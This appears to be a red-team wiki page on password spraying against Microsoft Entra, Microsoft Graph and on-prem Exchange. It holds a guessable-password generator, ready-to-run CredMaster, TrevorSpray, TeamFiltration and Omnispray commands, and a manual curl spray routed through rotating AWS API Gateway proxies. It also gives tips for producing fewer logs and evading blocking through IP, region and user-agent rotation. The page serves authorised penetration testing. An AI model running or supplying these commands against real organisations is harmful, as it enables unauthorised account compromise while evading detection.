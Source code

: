 ```yaml
---
title: Password Spraying
---
```


[[notes/initial-access/index]] trough insecure passwords.

1. identify services to spray against during [[notes/recon/index]]
2. [[notes/initial-access/user-gathering]]
3. [[notes/initial-access/user-validation]]
4. Test credentials, preferably against legacy software without MFA like [[notes/network/microsoft-exchange]] or websites with NTLM authentication, but also against [[notes/entra/index]] and other cloud services
5. [[notes/entra/conditional-access|Try to bypass MFA]]

Generate a list of common passwords.
Add the city of the company headquarter and variations for other languages.

~~~ bash
exrex "(Summer|Winter|Sommer|Winter|Welcome|Willkommen)($(date +%Y)|$(date -d 'last year' +%Y))\!|(Start|Qwerty|Qwertz|Password|Passwort)123\!"
~~~

# Against Microsoft Cloud

Untested tools:

- [catspin](https://github.com/rootcathacking/catspin), alternative to `fireproxng`
- [RagingRotator](https://github.com/nickzer0/RagingRotator), alternative to `TeamFiltration`
- [gofireprox](https://github.com/mr-pmillz/gofireprox), alternative to `fireproxng`
- [fireprox](https://github.com/ustayready/fireprox), the original

References:

- [CredMaster: Easy & Anonymous Password Spraying](http://web.archive.org/web/20221130205054/https://whynotsecurity.com/blog/credmaster/)
- [Basic authentication in Exchange Online](https://learn.microsoft.com/en-us/exchange/clients-and-mobile-in-exchange-online/disable-basic-authentication-in-exchange-online), Basic auth on the web endpoints is disabled globally, except for SMTP
- [twitter.com/rootsecdev/status/1649070894927446020](https://twitter.com/rootsecdev/status/1649070894927446020), Microsoft blocks password spraying for customers with Entra P2 license when the source IPs of the requests belong to the same ISP

## Azure SSSO

Spray against `https://autologon.microsoftazuread-sso.com`.
This produces less logs, but is not supported by all tenants.

=== "[[notes/tools/credmaster]]"
    ~~~ bash
    python3 ./credmaster.py --config ./config.json --color --plugin azuresso -u ./users.txt -p ./passwords.txt -a ./useragents.txt -o ./round1
    ~~~

## AAD Graph

Sprays against `https://graph.windows.net/common/oauth2/token`.

=== "[[notes/tools/credmaster]]"
    ~~~ bash
    python3 ./credmaster.py --config ./config.json --color --plugin msol -u ./users.txt -p ./passwords.txt -a ./useragents.txt -o ./round1
    ~~~

Manually.

~~~ bash
export AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_REGION=...
fireproxng list
fireproxng create https://login.windows.net/
curl -sS -H 'Accept: application/json' -H 'User-Agent: Windows-AzureAD-Authentication-Provider/1.0' https://$proxyid.execute-api.eu-west-1.amazonaws.com/fireprox/$tenantid/oauth2/token --data-urlencode resource=https://graph.windows.net -d client_id=38aa3b87-a06d-4817-b275-7a316988d93b -d client_info=1 -d grant_type=password -d scope=openid --data-urlencode username=john.doe@corp.com --data-urlencode password='Start123!'
fireproxng delete $proxyid
~~~

[[notes/tools/trevorspray]] provides a similar capability by using random addresses from large IPv6 subnets.

~~~ bash
trevorspray --prefer-ipv6 --subnet dead:beef::1/48 --random-useragent --url https://login.windows.net/$tenantid/oauth2/token -u ./emails.txt -p 'Start123!'
~~~

## Microsoft Graph

Spray against `https://graph.microsoft.com/common/oauth2/token`.

=== "[[notes/tools/credmaster]]"
    ~~~ bash
    python3 ./credmaster.py --config ./config.json --color --plugin msgraph -u ./users.txt -p ./passwords.txt -o ./round1
    ~~~

    **Warning:** This uses a hardcoded user agent for unknown reasons.

## Microsoft Login

Spray gainst `https://login.microsoftonline.com` with [[notes/tools/teamfiltration]].
Cleanup of AWS API Gateways is a bit unreliable.

=== "[[notes/tools/teamfiltration]]"
    ~~~ bash
    ./TeamFiltration --outpath ./corp --config ./config.json --spray --shuffle-regions --shuffle-users --shuffle-passwords --jitter 5 --sleep-min 90 --sleep-max 120 --passwords ./passwords.txt
    ~~~

# Against Exchange on-prem

Against ActiveSync.

=== "[Omnispray](https://github.com/0xzdh/omnispray)"
    ~~~ bash
    omnispray -m owa_spray_activesync -t spray --url https://mail.corp.com/Microsoft-Server-ActiveSync -d CORP -uf ./emails.txt -p 'Start123!'
    ~~~

    > **Warning:** This tool produced false negatives.

Untested tools:

- [[notes/tools/trevorspray]], Python, against Exchange OWA
- [spraycharles](https://github.com/tw1sm/spraycharles), Python, against Exchange EWS and any HTTP endpoint with NTLM authentication
- [o365spray](https://github.com/0xzdh/o365spray)
- [MailSniper](https://github.com/dafthack/mailsniper), PowerShell, against Exchange OWA and EWS

# Against more targets

- ADFS: TrevorSpray, [ADFSpray](https://github.com/xfreed0m/adfspray)
- Skype for Business: [SprayingToolkit](https://github.com/byt3bl33d3r/sprayingtoolkit)
- Octa: TrevorSpray, CredMaster
- Cisco AnyConnect: TrevorSpray
- Fortinet VPN: CredMaster
